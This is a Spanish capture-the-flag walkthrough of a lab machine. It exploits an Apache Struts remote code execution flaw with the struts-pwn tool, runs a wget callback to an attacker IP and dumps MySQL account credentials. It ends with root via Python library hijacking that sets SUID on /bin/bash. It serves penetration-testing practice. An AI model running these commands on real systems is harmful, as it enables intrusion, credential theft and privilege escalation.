 ## Summary

- IP -> 10.10.10.64
- Ports -> TCP (20, 80, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 20 -> 
    - 80 -> 
    - 8080 -> 

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **whatweb http://< URL>:< PUERTO>** – Nos dara una breve descripcion del gestor de contenidos por puerto especifico

Miramos la pagina web
- Observamos su codigo fuente 

- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> < http:// url/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Encontramos un dir llamado 'Monitoring'
El cual al momento de colocarlo en la url de la pagina web, podemos observar en la url que hay un 'Wlcome.action'
Ahora hacemos una busqueda en Google de **.action exploit**

Y encontramos en Github una url que se llama 'mazen160/struts...Apache strust'
Volvemos a buscar en Google que es ''apache struts' y nos sale  que es una herramienta de soporte para el desarrollo de aplicaciones web del patron MVC bajo la plataforma Java EE. 

Nos dirigimos a la pagina anterior de Github que habiamos encontrado
Nos clonamos el repo
- Comando -> **git clone https://github.com/mazen160/struts-pwn**
- Comando ->**python3 strust -h** Miramos el panel e ayuda del ejecutable en python3
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'id'** Debemos de tener la extencion .action con ese comando nosotros podemos colocar un comando que si se ejecuta correcramente nos mostrara el id de la maquina victima.

Y con eso tenemos ejecucion remota de comandos.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'whoami'** Ejecutamos el comando whoami


- Comando -> **python3 -m http.server 80** Nos ponemos en escucha por el puerto 80
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which curl'** Para ver si tiene Curl
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which wget'** Para ver si tiene Curl
Miramos que si existe el comando Wget en la maquina victima
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'wget http://10.10.14.12/test'** Para ver si recibimos algo, pero vemos que no.

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ls -l'** Para ver que hay en el directorio de la maquina victima, y encontramos db_connect

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat db_connect'** Para ver que hay
dentro del file 'db_connect'

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysql'** Para ver si existe la base de datos 

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysqlshow'** Para ver si esta mysqlshow y asi poder hacer mejor la intercaccion 
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin'** Para ingresar a la base de datos
	u -> usuario 
	p -> password
El usuario y Passwd se pone seguidos despues de la u y p.


- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users'** Para ver que tablas tenemos, despues de saber el nombre de las bases de datos 

Para la tabla que encontramos que columnas existen.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users accounts'** 

Ya cuando lleguemos a la parte de los usuarios y passwd, podemos colocar el siguiente comando.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql -uadmin -padmin -e "select * from accounts" users'** 
Colocando la base de datos al final y cambiamos el myslshow por mysql

Ahora tenemos un usuario y passwd

## User
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh 
Ahora podemos buscar la primer flag user.txt

- **uname -a** -> Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit.
- **lsb_release -a** -> Para ver que distribucion de Linux es
- **sudo -l** -> Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	- **sudo Command** -> Para poder ejecutar comando como root
Encontramos un archivo de Python que podemos ejecutar test.py pero no lo podemos modificar. Solo ejecutar 
- **cat test.py** -> Miramos el contenido del archivo python

	La tecnica que vamos a usar es un **Library Hijacking en Python3**

Podemos observar que se esta importando la libreria **Hashlib**, y con eso llamar haslib.md5
Y esta tecnica consiste en que cuando el script llame a la libreria, esta primero va a buscar en la ruta actual de trabajo y luego seguira con la ruta que corresponda. Estos es similar a la tecnica de **Path Hijacking de Bash** 

Por lo que debemos de crear un archivo en la ruta actual de trabajo: 
- **nano hashlib.py** 
	import os
	os.system("chmod u+s /bin/bash")

Para que en ese file podamos agregarle el privilegio SUI a la bash y asi poder temporalmente ser Root.

- **sudo -u root /usr/bin/python /home/richard/test.py** -> Para poder ejecutar el archivo en python
Y en ese punto hemos secuestrado la libreria 


## Root
Miramos la bash para ver is ha funcionado 
- **ls -l /bin/bash** -> Para ver los privilegios de la bash 
- **bash -p** -> Para ejecutar la bash y lanzarnos la consola como root cuando tiene permisos SUID o la s  (p=privilege)
